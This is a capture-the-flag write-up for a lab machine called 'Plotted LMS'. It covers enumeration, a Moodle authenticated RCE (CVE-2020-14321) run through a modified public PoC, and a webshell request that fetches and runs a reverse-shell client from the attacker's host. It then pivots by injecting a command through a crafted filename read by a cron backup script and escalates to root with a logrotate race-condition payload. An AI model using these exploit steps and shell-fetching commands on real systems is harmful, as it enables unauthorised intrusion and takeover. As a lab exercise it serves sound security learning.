 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used https://github.com/NHAS/reverse_ssh to get a full shell as www-data. E.g., via the following path (with the ip of my attack box and webserver port in there:

    ```
    GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=wget+10.10.132.8%3a1234/client+%26%26+chmod+%2bx+client+%26%26+./client+%26 HTTP/1.1
    ```

10. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod 777 backup.py)`. This can be done with `touch \$\(chmod\ 777\ backup.py\)` in that folder. Within a minute, the backup file will be writable by our user.
11. Next, adding `os.system("/var/www/9020/moodle/blocks/rce/lang/en/client")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin. Note this is using the reverse_ssh client I downloaded with the webshell.

> The following root privesc seemed *real* flaky, and I tried over multiple restarts to get it to work, only persisting once I checked and my approach *is* intended. So, just be aware that this might require a few goes. Best bet I've found is to get in there quick - I've had it work semi-seamlessly if I'm running logrotate 10 minutes after machine boot.

13. Careful enumeration or using pspy will reveal logrotate is being used with a custom config file at `/etc/logbackup.cfg`. The contents of this are:

    ```
    /home/plot_admin/.logs_backup/moodle_access {
        hourly
        missingok
        rotate 50
        create
    }
    ```
    
14. This suggests a [logrotten](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition) vulnerability, since we control that directory as plot_admin. Basically we can swap out the file being created/updated due to a race condition, plonk a payload into bash completion, and when the root user logs in they will trigger the payload and grant us a shell. Enumeration shows we don't have to wait - the root user is executing what they find in bash completion on a schedule.
15. To abuse this, I used https://github.com/whotwagner/logrotten. My payload file triggered a reverse_ssh client. In order to trigger the log rotate, you need to modify the moodle_access backup file - this can all be done in a few lines like so (run from plotadmin's home folder, where client and logrotten (compiled) have been placed:

    ```
    echo 'if [ `id -u` -eq 0 ]; then (/home/plot_admin/client &); fi' > payloadfile
    cp .logs_backup/02.06.2022 .logs_backup/moodle_access; ./logrotten -p payloadfile -d /home/plot_admin/.logs_backup/moodle_access
    ```
17. And after a few minutes (or rather, five or so restarts and many hours of waiting) boom root!
